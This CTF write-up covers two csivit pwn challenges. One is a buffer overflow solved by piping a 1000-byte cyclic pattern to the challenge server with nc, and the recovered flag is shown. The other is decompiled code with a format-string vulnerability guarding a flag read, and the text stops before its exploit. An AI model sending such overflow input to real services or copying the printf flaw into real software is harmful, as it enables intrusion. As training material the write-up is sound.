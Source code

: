 
## Secret Society

Tags: _pwn_ _bof_ _x86-64_

### Analysis

Lazily blast 1000 bytes at it.

> Sometimes with these easier tasks you get lucky when just blasting garbage at it.  A common technique used to test for segfaults, but in this case, you get the flag with almost no effort.  Unsure if that was the intent.


### Exploit

```bash
# cyclic 1000 | nc chall.csivit.com 30041
```

Any number > 126 passed to `cyclic` will do.


### Output

```bash
What is the secret phrase?
Shhh... don't tell anyone else about
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaa
apaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabea
abfaabgaa,csivit{Bu!!er_e3pl01ts_ar5_5asy}
```


## Global Warming

Tags: _pwn_ _format-string_ _x86_

### Analysis

```c
undefined4 main(undefined1 param_1)
{
  char local_410 [1024];
  undefined1 *local_10;
  
  local_10 = &param_1;
  fgets(local_410,0x400,stdin);
  login(&DAT_0804a030,local_410);
  return 0;
}

void login(undefined4 param_1,char *param_2)
{
  printf(param_2);
  if (admin == -0x4b24541d)
    system("cat flag.txt");
  else
    printf("You cannot login as admin.");
  return;
}
```
